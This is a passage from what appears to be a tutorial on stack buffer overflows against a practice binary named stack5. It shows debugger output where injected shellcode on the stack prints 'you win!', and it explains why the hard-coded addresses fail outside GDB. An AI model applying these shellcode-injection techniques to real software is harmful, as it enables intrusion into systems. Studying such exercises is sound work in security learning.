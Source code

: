 0x7fffffffded0:	0x20756f79	0x216e6977	0xffff0000	0x00007fff

gdb-peda$ x/xg 0x7fffffffdec8
0x7fffffffdec8:	0x00007fffffffde60
gdb-peda$ x/4i 0x00007fffffffde60
   0x7fffffffde60:	movabs rdi,0x7fffffffded0
   0x7fffffffde6a:	movabs rbx,0x555555555030
   0x7fffffffde74:	call   rbx
   0x7fffffffde76:	rex.B
gdb-peda$ x/s 0x7fffffffded0
0x7fffffffded0:	"you win!"
gdb-peda$ c
Continuing.
you win!

Program received signal SIGSEGV, Segmentation fault.
{% endhighlight %}
</div>

Examining the return address on line 16, we can see it now points to the top of the stack. Examining the instructions there, you can see our three injected instructions on lines 19, 20, and 21. You can also see our injected string we loaded after the return address. Continuing the program execution, you see our string "you win!" printed out on line 27, and the program crash afterwards.

Running the program directly from the command line though gives us different results:

```bash
gr0ked (master) bin $ ./stack5 < exploit
buf: ffffde80 cookie: ffffdedc
Segmentation fault (core dumped)
gr0ked (master) bin $
```

This time we get a segmentation fault but no "you win!" message. The address for the buffer and cookie are different, in GDB the buffer started at `ffffde60`, now it starts at `ffffde80`. If these are different, it means all of the hard coded addresses we put into our shellcode will no longer work. It turns out that when you run a program in GDB, the memory addresses get shifted around, so while our exploit works in the debugger, it won't work directly from the command line. We'll see how to fix this in the next post.

## Conclusion

This is an exercise that shows what can be done. By finding the right opcodes for our instructions, we forced the CPU to do what we wanted. Individually looking for opcodes is far from an efficient way to write shellcode, but knowing that just sending the correct codes to the CPU will allow us to execute whatever we want is a neat trick. In [Part 2]({{ site.url }}/exdev/stack5b.html) I'll go into a better way to build shellcode and fix our shifting address problem at the same time.
